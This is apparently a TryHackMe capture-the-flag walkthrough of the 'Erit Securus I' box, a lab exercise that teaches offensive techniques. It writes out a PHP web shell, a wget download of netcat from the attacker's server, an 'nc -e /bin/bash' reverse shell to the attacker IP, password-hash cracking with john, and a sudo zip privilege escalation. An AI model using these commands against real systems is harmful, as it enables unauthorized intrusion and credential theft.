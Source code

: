 Erit Securus I is an easy rated difficulty box on [TryHackMe](https://www.tryhackme.com). Below are the steps taken to compromise this system.

### Task 1

Task 1 just requires you to deploy the box and confirm that you have started it up.

### Task 2

Task 2 asks you to scan the box, running **nmap -A [machine ip]** provides you with the answers to **Question 1** and **Question 2**.

![Erit Securus nmap](/assets/img/EritSecurus1.png)

### Task 3

There is only one question to answer for this task, which asks you what CMS is being utilized. This can be found by opening up the website in your browser and scrolling to the bottom of the page.

![Erit Securus CMS type](/assets/img/EritSecurus2.png)

### Task 4

Task 4 asks you to download an [exploit](https://github.com/r3m0t3nu11/Boltcms-Auth-rce-py). **Question 1** asks what language the exploit is coded in. Reviewing the exploit itself tells you what language it is coded in on line 1 of the exploit.

![Erit Securus exploit language](/assets/img/EritSecurus3.png)

**Question 2** asks you to find the login page to bolt. This can be found in the exploit on line 44 of the exploit code. You are also provided with credentials to login with in the hint for this question.

![Erit Securus bolt login page](/assets/img/EritSecurus4.png)

### Task 5

Save the exploit code to your attacker machine. Next, go to the directory where you saved the exploit, and run **python3 exploit.py http://[machine ip] username password**. The username and password were provided in the previous Task's hint. Once connected, run either **whoami** or **id** to get the username to answer **Question 1**.

![Erit Securus bolt exploit](/assets/img/EritSecurus5.png)

Next, follow the steps mentioned in the room to establish a reverse shell. First, run **echo '\<?php system($_GET["c"]);?\>'\>c.php**. This creates a file named **c.php** which you can use to send system commands through.

![Erit Securus c.php](/assets/img/EritSecurus6.png)

Next, open another terminal window on your attacker machine and run **ln -s $(which nc)**. This will be used to link netcat to the current directory.

![Erit Securus netcat link](/assets/img/EritSecurus7.png)

Next, run **python3 -m http.server** to serve up an http server that will be used by the victim machine to pull over netcat.

![Erit Securus python3 http server](/assets/img/EritSecurus8.png)

Next, navigate to **http://[machine ip]/files/c.php?c=whoami** to see if your php file you created a few lines above works as expected, it should return a result of www-data.

![Erit Securus whoami](/assets/img/EritSecurus9.png)

Next, change the command above from whoami to **wget http://[attackerip]:8000/nc**.

![Erit Securus wget nc](/assets/img/EritSecurus10.png)

 Nothing will show up in the browser window, but if you look at your python http server, you should see that a file (nc) was transferred to the victim computer.

![Erit Securus wget download nc](/assets/img/EritSecurus11.png)

Create a netcat listener on our attacker pc with **nc -nvlp [port number]**.

![Erit Securus nc listener](/assets/img/EritSecurus12.png)

Now, change the URL on the victim machine from the wget command to **http://[machine ip]/files/c.php?c=chmod 755 nc** to make netcat an executable on the victim machine.

![Erit Securus chmod](/assets/img/EritSecurus13.png)

You will not see any confirmation that the permissions were changed on this file. However, we should now be able to run nc on the victim computer with **http://[machine ip]/files/c.php?c=./nc -e /bin/bash [attacker ip] [port nc is listening on]**. You should now have a connection on your attacker computer.

![Erit Securus bash shell](/assets/img/EritSecurus14.png)

Now, let's get a nicer shell by running **python -c 'import pty; pty.spawn("/bin/sh")'**.

![Erit Securus python shell](/assets/img/EritSecurus15.png)

### Task 6

Now that we have a reverse shell, run **cd /var/www/html/app/database** to get into the directory the bolt database is in as specified in the directions.

![Erit Securus database](/assets/img/EritSecurus16.png)

Next, run **sqlite3 bolt.db** to open the database. Then run **.tables** to list the tables. Last, let's enumerate the users with **SELECT * from bolt_users;**

![Erit Securus database user enumeration](/assets/img/EritSecurus17.png)

We currently have the credentials for admin, but not for wildone. Copy the entire hash (between the second and third | characters) and save it to a file. I saved it to a file named erithashes.txt. Next, run **john erithashes.txt -wordlist=/usr/share/wordlists/rockyou.txt**. This will crack the password for wildone, which is the answer to **Question 1** for this task.

![Erit Securus wildone password](/assets/img/EritSecurus18.png)

Next, follow the provided instructions and run **su wileec** and enter the password you just cracked.

![Erit Securus wileec user](/assets/img/EritSecurus19.png)

Next, type in **cd /home/wileec**, followed by **ls**, and then **cat flag1.txt** to get the answer to **Question 2**.

![Erit Securus flag1.txt](/assets/img/EritSecurus20.png)

### Task 7

Next, let's follow the directions provided and run **ssh wileec@192.168.100.1** from our current session as wileec to pivot to another machine.

![Erit Securus ssh](/assets/img/EritSecurus21.png)

Next, run **sudo -l** to see what privileges can be ran as sudo, which is the answer to **Question 1**.

![Erit Securus sudo -l](/assets/img/EritSecurus22.png)

### Task 8

Lets look at [GTFOBins](https://gtfobins.github.io/) to see what ways we can escalate with the command listed in sudo -l. Looking up this command will show you a way to elevate privileges with sudo. Enter the following commands to elevate privileges: **TF=$(mktemp -u)** followed by **sudo -u jsmith zip $TF /etc/hosts -T -TT 'sh #'**.

![Erit Securus gtfobins zip su jsmith](/assets/img/EritSecurus23.png)

Next, run **cd ..** followed by **cd jsmith** to get into jsmith's home directory and then run **ls -al** to list the contents, there is a second flag here. View the flag with **cat flag2.txt**. This is the answer to **Question 1** for Task 8.

### Task 9

Let's run **sudo -l** as jsmith and see what commands they can potentially run as root.

![Erit Securus jsmith sudo -l](/assets/img/EritSecurus25.png)

What they can run as sudo is the answer to **Question 1**. Next, there are numerous ways to gain root, but the easiest way is with **sudo su root**. From here run **cd /root** followed by **ls**. Run **cat flag3.txt** to get the final flag and the answer to **Question 2** to finish this challenge!

![Erit Securus flag3.txt](/assets/img/EritSecurus26.png)